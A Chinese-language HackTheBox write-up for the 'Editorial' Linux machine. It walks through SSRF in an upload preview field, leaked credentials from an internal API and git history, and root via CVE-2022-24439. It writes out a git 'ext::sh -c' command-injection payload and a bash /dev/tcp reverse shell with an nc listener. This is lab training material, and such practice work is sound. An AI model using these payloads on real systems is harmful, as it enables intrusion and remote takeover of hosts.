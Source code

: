 ```yaml
---
title: "HTB-Editorial"
date: 2024-09-03
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O editorial.htb
```

![](./images/image-23.png)

开放端口：`**22**、**80**`

Server：`**nginx 1.18.0** （Ubuntu）`

### Dirsearch

```
dirsearch -u editorial.htb -t 50
```

![](./images/image-24.png)

访问：`http://editorial.htb/upload`

![](./images/image-25.png)

## SSRF

**Burpsuite**开启拦截，点击**Preview**

![](./images/image-26.png)

并且可以访问

![](./images/image-27.png)

由于允许输入url，这里尝试：**`127.0.0.1`**，成功得到回显。

![](./images/image-28.png)

尝试遍历端口服务

![](./images/image-29.png)

当端口为`5000`时，响应包出现不同

![](./images/image-30.png)

访问下载到一个文件

![](./images/image-31.png)

```
sudo apt install jq
cat file | jq
```

![](./images/image-32.png)

查看authors的api

![](./images/image-33.png)

![](./images/image-34.png)

```
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."                                                                                                                                                                                                          
}
```

**Username：`dev`**

**Password：`dev080217_devAPI!@`**

ssh登录，获取到user.txt

![](./images/image-35.png)

## Privildge Escalation

发现隐藏的git目录

![](./images/image-36.png)

查看`git log`

![](./images/image-37.png)

![](./images/image-38.png)

```
'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

**Username：`prod`**

**Password：`080217_Producti0n_2023!@`**

```
ssh prod@editorial.htb
```

![](./images/image-39.png)

```
cat /opt/internal_apps/clone_changes/clone_prod_change.py

#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

这个python脚本可以指定一个参数进行仓库克隆。

### CVE-2022-24439

Git 允许自定义协议扩展，这意味着你可以定义自己的协议来处理特定的操作。通过这种机制，用户可以注册自己的协议处理程序，如 `ext::`。当 Git 遇到这种协议时，它会调用与之关联的命令。

百分号`%`可以理解为空格

![](./images/image-41.png)

```
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/hyh'
```

成功写入文件

同样方式写入反弹shell

```
prod@editorial:/opt/internal_apps/clone_changes$ echo "bash -i >& /dev/tcp/10.10.16.8/100 0>&1" >/tmp/revshell.sh

prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_chane_prod_change.py 'ext::sh -c cat% /tmp/revshell.sh|bash'

┌──(root㉿kali)-[/home/kali/Downloads]
└─# nc -lvnp 100
```

![](./images/image-42.png)

## Summary

**目录扫描**出upload页面

URL输入框存在**SSRF漏洞**，根据端口扫描并得到备份文件

**Git Log** 信息泄露获得prod用户权限

prod存在可以sudo执行的文件，**`CVE-2022-24439`**

先写入**反弹shell**文件，再用CVE进行任意文件执行，获取root权限
